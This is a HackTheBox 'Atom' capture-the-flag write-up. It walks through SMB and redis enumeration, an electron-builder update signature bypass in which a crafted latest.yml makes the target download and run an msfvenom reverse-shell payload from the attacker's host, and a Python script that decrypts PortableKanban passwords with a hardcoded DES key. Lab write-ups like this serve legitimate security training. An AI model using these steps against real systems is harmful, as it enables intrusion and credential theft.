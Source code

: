 ```yaml
---
title: HackTheBox - Atom Writeup
date: 2021-05-08 09:45:47 +07:00
categories: ctf
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: HackTheBox Atom in depth Writeup.
---
```


<h1 align="center"> HTB Atom - Writeup - May 8 2021</h1>

<p align="center">
 <img src="https://www.hackthebox.eu/storage/avatars/27ea1e1be5e83989ad5b6361773f4eaa.png">
</p>

<hr>

Hello All! Its me **mercer98** back with another one .
This is a fun little box w a medium difficulty. There's a few rabbit holes but other than that its quite straightforward . In my opinion i found the privesc a bit harder than the inital foothold . 

*[Find the official link for HacktheBox - Atom here!](https://app.hackthebox.eu/machines/340)*

Lets Begin!

<hr>


### ENUMERATION

We kick it off w a usual nmap scan . In this case a default script and version scan w the verbose flag to see open ports on the fly without having to wait for the scan to finish.

![Image](images/atom1.png)

A full port scan reveals redis is active on port 6379 along w winrm at 5985 which shows we can probably use remoting with authentic creds.

![Image](images/atom2.png)

We start off by checking port 80:
We find a possible uname at th end of the pg : __MrR3boot@atom.htb__

From this we infer and add atom.htb to /etc/hosts list. And continue browsing .

Directory Bruteforcing w gobuster results in nothing too great so moving on! 

**Enumerating redis:**

![Image](images/atom7.png)

Much cant be enumerated since redis requires auth . Checking the format of auth shows it requires only the pass. We could attempt to brute force the pass if nothing turns up from smb.

**Enumerating smb:**

![Image](images/atom3.png)

Smbmap shows use we have access to 2 shares amongst which IPC$ is the default and can be used for named pipe enum using enum4linux later .
Software_Updates seems interesting as we have right access too to it.


Using smbclient to connect to the share:

![Image](images/atom4.png)

The other folders are empty so be grap the pdf. Looking at the pdf given we infer 2 things:


**Built with : electron-builder**

We can place the update in any client folder and the automated script would check the update. We can probably replace some code to give us a shell here..


This link explains the exploit : [electron-builder-Exploit](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html)
In short is a vuln caused my and unescaped variable . We can trigger a parse error in the script .

The exploit bypasses inbuilt signature checks.

![Image](images/atom5.png)

![Image](images/atom6.png)



### FOOTHOLD

**I did the following to recreate the vuln:**

- Generate an msfvenom payload of choice . I generated a rev https exe. and then rename it with a single quote.

![Image](images/atom8.png)

I renamed the file to d'payload.exe

![Image](images/atom10.png)

- Calculate the hash using the prescribed syntax : 

![Image](images/atom9.png)

- Setup a listener on msfconsole to catch your shell using multi/handler.

- generate the latest.yml file update: Replace the path and the hash.
```
version: 1.2.3
path: http://10.10.14.52/d'payload.exe 
sha512: a/xp95BNvRKGxbxRZv+1LOEIs9uaSX6wGz6ip+RDX2XjNkTFVJbwIZ9T21SN40sq/78zYZmb9IxATX710s58Rg==
```

- Start a server to host d'payload.exe using 
`sudo python -m SimpleHTTPServer 80`

- Finally put the update file in one of the client folders on the share using smbclient.
Wait for about 15-20 secs and let the update happen . You will recieve a meterpreter shell!

![Image](images/atom11.png)

Congrats We now have a reverse shell. 

A getuid command shows we are ATOM\jason
Great!

***GETTING USER.txt***

__C:\Users\jason\Desktop\user.txt__ 

Retrieve contents of the file to see your flag!



### PRIVESC:

**Enumerating with winpeas:**

Begin by dropping winpeas on the box.

![Image](images/atom12.png)

Run it...

Details found :

- jasons creds :
![Image](images/atom13.jpg)
Dosent allow winrm remoting but...

- A user guide pdf which we might have a look at if needed .... 

![Image](images/atom17.png)


- Since we already know redis was on ... I found its conf file . Looks juicy . Lets have a look:

![Image](images/atom14.png)

We found the pass for redis. 

![Image](images/atom15.jpg)




**PENTESTING redis:**

Use this [link](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) as a reference to pentest redis.

Now follow the steps:

- Connect to redis using:
`redis -h 10.10.10.237`

- Authenticate using the password:
`auth pass`

- Retrive info on the keyspace using:
`info keyspace`

- We see that there is one db - number 0 which has 4 keys.
View the keys by:
`keys *`

- We see a bunch of keys . Retrieve the first or last , it might most likely be the administrator using:
`get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0`

![Image](images/atom16.jpg)


- we now have the administrator hash ! Hurray!


Ater looking a lot on how to decrypt the hash i decided to look back at the "User guide.pdf" to look for clues and i found :

![Image](images/atom18.png)

Googling around made me figure that portable-kanban stores the settings for the enc pass.

Searching around for an exploit i found an enc password disclosure vuln [here](https://www.torchsec.net/portablekanban-4-3-6578-38136-encrypted-password-disclosure-torchsec/) .

- Remove the unnecessary except statement.

The python script:
```
import json
import base64
from des import * #python3 -m pip install des

try:
    hash = str(input("Enter the Hash : "))
    hash = base64.b64decode(hash.encode('utf-8'))
    key = DesKey(b"7ly6UznJ")
    print("Decrypted Password : " + key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))
except:
    print("Wrong Hash")
```
- Install des using ... `sudo pip3 install des` as stated in the script.

- Run the script , i/p your hash and get the decrypted hash. 

![Image](images/atom20.jpg)


We now finally have the password of admin. 

Lets try winrm again using these creds.... 


![Image](images/atom19.jpg)

**GETTING Root.txt**

__type C:\Users\Administrator\Desktop\root.txt__

And thats a wrap!

### Bookmark to recieve the latest writeups!






